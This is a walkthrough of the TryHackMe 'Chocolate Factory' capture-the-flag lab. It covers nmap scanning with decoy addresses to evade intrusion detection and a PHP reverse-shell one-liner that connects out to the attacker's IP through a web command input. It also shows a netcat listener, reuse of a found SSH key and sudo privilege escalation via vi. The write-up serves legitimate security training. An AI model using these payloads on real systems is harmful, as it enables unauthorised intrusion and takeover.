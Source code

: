 
![intro](https://github.com/user-attachments/assets/50e81e51-d8d8-4b71-9227-35567c08f0f4)

# tryhackme-Chocolate Factory-writeup
This is a walkthrough for the tryhackme CTF Chocolate Factory. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals many open ports, but I'll just focus on the relavent ones:

![nmap](https://github.com/user-attachments/assets/6967f154-8e11-4172-b1bc-95659d16b9f1)

The web server on port 80 takes to you a login panel that uses a validate.php function. The nmap scan took a while so I also ran scans with gobuster and nikto.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/dirb/common.txt -x php,txt,jpg -o buster.txt
```
I checked out the home.php dir and it took me to the squirrel room, which has an command input. I will try to run a simple php reverse shell. Let's head to revshells.com, input your IP and desired port, and I'm going to use the PHP exec shell. I'm choosing a short php shell since the site clearly uses php for many of it's functions:
```bash
php -r '$sock=fsockopen("10.10.191.134",9001);exec("sh <&3 >&3 2>&3");'
```
On kali we'll run the netcat listener:
```bash
nc -lvnp 9001
```
We now a primative shell as www-data!
First, let's upgrade the shell for improved function and stability:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
export TERM=xterm
```
ctrl -z
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
Taking a look at www-data's home directory we see validate.php, which includes a password for Charlie:

![charlie](https://github.com/user-attachments/assets/98932712-e5a2-4ebb-ba2c-3659b083fafd)

I tried to switch users to charlie with this password but no luck. Now that I think about it, the login on the web server displayed the validate.php function, so this is displaying the code behind that. Let's see what else we can find...
The file key_rev_key contains a key that will can answer the questions with:

![key_rev_key](https://github.com/user-attachments/assets/0f2222a6-1299-4d3a-a160-2bb78f147715)

Next, let's go to charlie's home dir. We don't have the permissions to cat user.txt but teleport contains an rsa key, most likely for charlie.

![rsa](https://github.com/user-attachments/assets/eddd0419-6723-46b8-893d-20a7bcb1b9d7)

This rsa key gives us everything needed to ssh as charlie:

![ssh](https://github.com/user-attachments/assets/1fb4f963-d1de-4885-9e05-979ce0ff0a6b)

Let's cd to charlie's home dir and get the user.txt.
sudo -l looks interesting:

![sudo -l](https://github.com/user-attachments/assets/a4a09f4f-0d89-403c-816d-59d2ab4e5c8d)

Let's check that out on gtfobins.github.io
It worked!

![vi](https://github.com/user-attachments/assets/b9a17f0b-cfa4-4033-8b92-6453573789cd)

Now, we are root but we still need to find the flag. Let's upgrade the shell with the previous python3 pty command, and head to the root dir. I tried running python3 root.py but it didn't work. Then I tried python root.py and we are now the proud owners of the Chocolate Factory! 

![win](https://github.com/user-attachments/assets/2c32f827-80fd-4b8f-870c-1b342d436308)

I hope you enjoyed this CTF writeup.  
